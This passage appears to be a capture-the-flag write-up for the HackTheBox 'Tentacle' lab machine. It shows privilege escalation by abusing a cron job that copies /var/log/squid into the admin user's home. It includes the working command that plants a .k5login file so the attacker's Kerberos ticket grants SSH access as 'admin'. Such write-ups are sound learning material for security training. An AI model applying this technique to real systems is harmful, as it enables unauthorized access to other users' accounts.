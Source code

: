 ## k5login

Found crontab running `/usr/local/bin/log_backup.sh` as user "admin" on `srv01` host
```bash
* * * * * admin /usr/local/bin/log_backup.sh
```

```bash
[j.nakazawa@srv01 krb5.conf.d]$ cat /usr/local/bin/log_backup.sh
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```

script is syncing `/var/log/squid/` to `/home/admin/`, that means all file from `/var/log/squid/` direcotry copy to `/home/admin/` and than creates tar archive from these file.

Found a login technique with kerberos with `.k5login` config file from [kerberos docs](https://web.mit.edu/kerberos/krb5-devel/doc/user/user_config/k5login.html)

**EXAMPLES**

Suppose the user "alice" had a `.k5login` file in her **home directory** containing just the following line:
```bash
bob@FOOBAR.ORG
```
This would allow user "bob" to use Kerberos network applications, such as `ssh`, to **access alice‘s account**, using **bob‘s Kerberos tickets**.

and we can use this technique to login to user "admin" with running cronjob.

**Create `.k5login` file in the `/var/log/squid/` folder.**

*user "j.nakazawa" is in squid group but `/var/log/squid` directory don't have read permission.*

![](/assets/img/posts/tentacle/squid-log.png)

```bash
echo 'j.nakazawa@REALCORP.HTB' > /var/log/squid/.k5login
```

and ssh to "admin" with user "j.nakazawa" token 
